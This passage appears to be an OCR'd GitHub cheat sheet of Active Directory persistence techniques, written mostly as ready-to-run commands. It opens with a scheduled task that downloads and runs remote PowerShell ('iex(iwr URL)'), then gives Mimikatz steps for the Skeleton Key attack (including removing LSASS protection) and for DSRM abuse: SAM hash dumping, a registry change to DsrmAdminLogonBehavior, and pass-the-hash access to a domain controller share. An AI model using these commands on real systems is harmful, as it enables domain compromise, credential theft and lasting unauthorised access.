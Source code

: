 > > > `/TR "powershell.exe -c 'iex(iwr URL)'"`
> > >
> > > Run Task
> > >
> > > > `schtasks /Run /S <DomainName> /TN "TASKNAME"`

> :six: ***Skeleton Key*** -- Patch Lsass by injecting Skeleton key to access any resources (Password: mimikatz) **DC not rebooted**

> > Domain Admin is required 
> >
> > `Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <DomainNAmeFQDN>` **Then**
> >
> > `Enter-PSSEssion -ComputerName <DomainController> -credential <domain>\Administrator`
> >
> > ***Protected Lsass*** -- Copy mimidriv.sys on the target's hard disk
> >
> > > ```
> > > mimikatz # privilege::debug
> > > 
> > > mimikatz # !+
> > > 
> > > mimikatz # !processprotect /process:lsass.exe /remove
> > > 
> > > mimikatz # misc::skeleton
> > > 
> > > mimikatz # !-
> > > ```
>
> :seven: ***DSRM*** -- Safe mode of any domain controller -- Directory Services Restore Mode ***SafeModePassword***  -- Rarely change
>
> > :information_source: Local Administrator's password on DC ( different from RID:500) 
> >
> > :rotating_light: Domain Admin Access Required
> >
> > ```
> > Invoke-mimikatz -Command '"token::elevate" "lsadump::sam"' - ComputerName <DomainControlerFQDN>
> > ```
> >
> > ***Then*** Change logon behavior to the local admin account by adding ***Hive*** 
> >
> > > `Enter-PSSession -ComputerName <DomainControllerFQDN> `
> > >
> > > **Then**
> > >
> > > `New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD`
> > >
> > > **Validate Changes**
> > >
> > > `Get-ItemProperty "HKLM:\System\CurrentConrtolSet\Control\Lsa\"`
> >
> > **Then** You can use the following command to gain access 
> >
> > ```
> > Invoke-mimikatz -Command '"sekurlsa::pth /domain:<DomainControllerName> /user:Administrator /ntlm:<CapturedValuePreviously> /run:powershell.exe"'
> > ```
> >
> > Access Directory `ls \\domainControllerName\C$`
>